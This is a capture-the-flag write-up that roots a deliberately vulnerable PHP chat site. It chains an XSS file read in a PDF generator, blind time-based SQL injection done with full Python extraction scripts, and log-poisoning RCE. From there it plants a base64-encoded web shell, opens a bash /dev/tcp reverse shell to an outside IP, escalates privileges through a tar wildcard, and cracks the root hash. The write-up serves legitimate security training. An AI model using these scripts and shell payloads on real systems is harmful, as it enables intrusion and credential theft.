










## Jojo Website

_We have decided to keep source code of this challenge private._

### Description

The kidnappers of Jojo have a new web platform!
This will never end!
You have to stop them now! Root their server, we need to save Jojo.

The flag is `N0PS{root password}`

Note: You will not receive any email from this challenge. If at any moment of the challenge you need to perform offline bruteforce attack, you can use `rockyou.txt` with `best64.rule`.

**Authors: algorab, Sto**
### Solution

We are facing a web application that allows us to send message, like a chat. We can create an account to start chatting with other people, once we have accepted some silly terms and conditions.

When sending a message, the admin answers by saying hello.



This platform includes some dead ends, so being exhaustive is necessary to find the different vulnerabilities that lead to pwn to whole server.

#### Step 1: Full Path Disclosure

Before going further, we are going to need the absolute location of the web application inside the server.

First of all, by having a look at request headers and at cookies, we can easily deduce that out application is a PHP one:



Thus, we can try to mess with `PHPSESSID` cookie as a POST parameter in a request, in order to get an error message revealing the full path of the application.



We now know that the full path of the `index.php` is `/var/www/jojo_website/html/index.php`.

#### Step 2: Server-Side XSS

It seems that all user inputs are sanitized everywhere, whether it is username or messages. There is no way to hack the admin with our messages.
Everywhere ? No! There is one place where username is not sanitized, which is in the PDF generated by the terms and conditions page.

By creating an account with username being ``, we get this output when generating the PDF:



From this output, we can conclude that out username got passed in a shell script, and certainly used in a `sed` command. Usually, the delimiter used in `sed` is `/`, so maybe out username is messing with this command.

When trying again with an escaped version of our payload (``), we get this:



So we are able to execute javascript when generating the PDF. However, this does not mean that we are able to read arbitrary files in the machine, even if the presence of an image in the PDF allows us to think that we should be able to read files.

In order to try to read a file, we can use this payload for the username:
```
<p id="injection"><\/p>
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.getElementById("injection").innerText=this.responseText
	};
	x.open("GET","file:\/\/\/etc\/passwd");x.send();
<\/script>
```

We get this:



So now, by changing the address of the file (for example, to `/var/www/jojo_website/html/index.php)`, we are able to read the whole PHP code of the web application. In `index.php`, we can read that pages are located in the `/var/www/jojo_website/html/inc` folder.

Among the findings, two files are interesting:

```php
config.php

<?php
	// so lazy I just reuse same pazword for everything lolz
	$mysql_pass = "j0j0_p455w0rdZ";
	$mysql_user = "jojodb";
	$mysql_host = "mysql";
	$mysql_db = 'j0j0_db';
	
	try {
		$conn = new mysqli($mysql_host, $mysql_user, $mysql_pass, $mysql_db);
		if ($conn->connect_error) {
			die("<h3>An error occured :(</h3>");
		}
	} catch(Exception $e) {
		die("<h3>An error occured :(</h3>");
	}
?>
```
```php
forgot.php

<?php
	/* still not implemented correctly
	so just put try catch and letzgo lol */
	require(INC_FOLDER . "config.php");
	$email = $password = "";
	$sent = false;

	try {
		if (isset($_POST['email'])) {
			$email = $_POST['email'];
			$sql = "SELECT id FROM j0j0_users WHERE email = '$email'";
			if($stmt = mysqli_prepare($conn, $sql)){
				$stmt->execute();
				$stmt->store_result();
				// TODO: implement the pazword link sending
				$sent = true;
				$stmt->close();
			}
		}
	} catch(Exception $e) {
		$sent = true;
	}
?>

...
```

In `config.php`, we get the database password, the information that our admin reuses his passwords, and the information that database is MySQL. This is very interesting, as this password may also be the password of the admin. However, we still need to know his email address in order to login on his account.

In `forgot.php`, we see that password reset is not yet implemented, and we can also see that this code is vulnerable to SQL injection. Our admin just wrote it quickly, and directly put the `$email` variable without any input processing. However, we never get the result of the SQL request, neither do we see if it failed or not. Therefore, we will need to perform and time-based SQL injection to recover the content of the database.

In `index.php`, we can see that there is rate limiting implemented, which means we have to be careful in order not to be blacklisted.

#### Step 3: Blind time-based SQL injection

As we saw earlier, we have to perform an time-based SQL injection in the `forgot.php` script.

In order to prove the existence of the SQLi, here is what we can input `email='+union+select(sleep(10))+--+`. 

Now, here is a script to recover the tables name. You can see that here, and in the other scripts too, we are using hexadecimal values of strings in order to avoid any issue with quotes. In order to respect the rate limiting, we can add a delay between each request.

```python
import requests
import string
from time import time, sleep

alphabet = string.ascii_letters+string.digits+"_-.@$/ "

url = "http://localhost/?page=forgot"

payload = "' or if((select SUBSTRING(table_name,{},1) from information_schema.tables where table_schema=database() limit {},1)={}, sleep(2), null) -- "

num_char = 1
num_table = 1
table = ""

tables = []

while True:
    stop = True
    for char in alphabet:
        sleep(0.6)
        t1 = time()
        p = payload.format(num_char, num_table-1, hex(ord(char)))
        r = requests.post(url, data={"email": p})
        t2 = time()
        if t2-t1 > 2:
            stop = False
            if char == " ":
                tables.append(table)
                num_table += 1
                num_char = 1
                table = ""
            else:
                table += char
                num_char += 1
    if stop == True:
        for table in tables:
            print(f"Found table {table}")
        break
```

We get as output:
```
Found table j0j0_messages
Found table j0j0_users
```

Let's focus on table `j0j0_users`, as this is probably the one that contains users information.

Here is a script that retrieve the column names using the same SQL injection:

```python
import requests
import string
from time import time

# SQL columns names are case insensitive
alphabet = string.ascii_lowercase+string.digits+"_-.@$/ "

url = "http://localhost/?page=forgot"

payload = "' or if((select SUBSTRING(column_name,{},1) from information_schema.columns where table_name=0x6a306a305f7573657273 limit {},1)={}, sleep(2), null) -- "  

num_char = 1
num_column = 1
column = ""
columns = []

while True:
	stop = True
	for char in alphabet:
		sleep(0.6)
		t1 = time()
		p = payload.format(num_char, num_column-1, hex(ord(char)))
		r = requests.post(url, data={"email": p})
		t2 = time()
		if t2-t1 > 2:
			stop = False
			if char == " ":
				columns.append(column)
				num_column += 1
				num_char = 1
				column = ""
			else:
				column += char
				num_char += 1
	if stop == True:
		for column in columns:
			print(f"Found column {column}")
		break
```

We get as output:

```
Found column email
Found column has_accepted_terms
Found column id
Found column is_admin
Found column password
Found column username
```

Therefore, we just have to get the `email` and `password` values for user `j0j0_admin123` and we will have everything we need. On this last part, we use the [`BINARY`](https://dev.mysql.com/doc/refman/5.7/en/cast-functions.html#operator_binary) cast to make our request case sensitive, as we need the exact values. Also note that we need to determine the length of the values before getting them, as they can include spaces and are not space terminated, as the table and column names were.

```python
import requests
import string
from time import time

alphabet = string.ascii_letters+string.digits+"_-.@$/ "

url = "http://localhost/?page=forgot"

columns = ["email", "password"]
lengths = {}

payload_len = "' or if((select length({}) from j0j0_users where username=0x6a306a305f61646d696e313233) = {},sleep(2),0) -- "

for column in columns:
	for i in range(1000):
		sleep(0.6)
		t1 = time()
		p = payload_len.format(column, str(i))
		r = requests.post(url, data={"email": p})
		t2 = time()
		if t2-t1 > 1:
			lengths[column] = i
			break  

payload = "' or if((select BINARY SUBSTRING({},{},1) from j0j0_users where username=0x6a306a305f61646d696e313233 limit 0,1)={}, sleep(2), null) -- "

num_char = 1
num_column = 0
value = ""
values = {}

while True:
	stop = True
	for char in alphabet:
		sleep(0.6)
		t1 = time()
		p = payload.format(columns[num_column], num_char, hex(ord(char)))
		r = requests.post(url, data={"email": p})
		t2 = time()
		if t2-t1 > 1:
			stop = False
			value += char
			num_char += 1
			if len(value) >= lengths[columns[num_column]]:
				values[columns[num_column]] = value
				num_column += 1
				num_char = 1
				value = ""
				if num_column > len(columns):
					stop = True
	if stop == True:
		for k,v in values.items():
			print(f"{k}: {v}")
		break
```

We get as output:

```
email: jojo@jojocorp.fun
password: $2y$10$qziMqCs/G2aRcl0nSAbZzuXNXSvuSYgBpg7S.BKh9u2pe5MWnmo6G
```

We can quickly check that the found password matches the one that we found in `config.php`:
```php
php > $pass = 'j0j0_p455w0rdZ';
php > $hash = '$2y$10$qziMqCs/G2aRcl0nSAbZzuXNXSvuSYgBpg7S.BKh9u2pe5MWnmo6G';
php > echo password_verify($pass, $hash);
1
```

So we found email and password for the admin user. We can now login using its account.

#### Step 4: RCE using apache logs

Once in the admin section, we can access new functionalities, which are account deletion, message deletion, and accessing the logs.

By reading the source code, we can see this line:
```php
<?php
	if (isset($_POST['log'])) {
		include('/var/log/apache2/jojo_log/access_jojo.log');
	}
?>
```

So, the developer made a mistake by using `include` instead of `file_get_contents` in order to add the logs into the web page. This means that any PHP code in the log file will be executed during inclusion. Therefore, we can make a malicious request to the server including PHP code, and then load the logs in the page, and we will then be able to perform remote code execution.
```bash
curl http://localhost/ -H "User-Agent: <?php system('whoami'); ?>"
```
Then in the logs we can see:



Therefore, we can execute RCE. 
We can then write a webshell, and from that get a full reverse shell:
```bash
curl -H "User-Agent: <?php system('echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+ | base64 -d > /var/www/jojo_website/html/shell.php'); ?>" http://localhost/
```

Then after loading the logs, we can get a shell:

```bash
curl http://localhost/shell.php?cmd=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F1234%200%3E%261%22
```

And then we land into the server!



#### Step 5: Privilege escalation

We are currently logged in as `www-data`, and we now need to elevate our privileges to reach the `/etc/shadow` file.

After some exploration, we find the script `/opt/scripts/save.sh`, containing these lines:

```bash
#!/bin/bash

cd /var/www/jojo_website
date > last_backup
tar -cf /root/jojo_backup.tar /var/log/apache2/jojo_log *
```

By running `pspy`, we can see that this script gets executed every minute by `root`.



So the script gets executed every minute, and logs are cleared every 5 minutes.

The script contains a [tar wildcard vulnerability](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar) that should allow us to elevate our privileges.



We can then access `/etc/shadow`, where we find `root` hash:
```
root:qh9INfE5Y7Ngw:19876:0:99999:7:::
```

We can identify that this hash is a DES hash, using `hashid` for example.

We can then bruteforce it to obtain `root` password:

```
$ hashcat -O -w 4 "qh9INfE5Y7Ngw" rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

We get the password, and thus the flag.

### Flag

`N0PS{1badjojo}`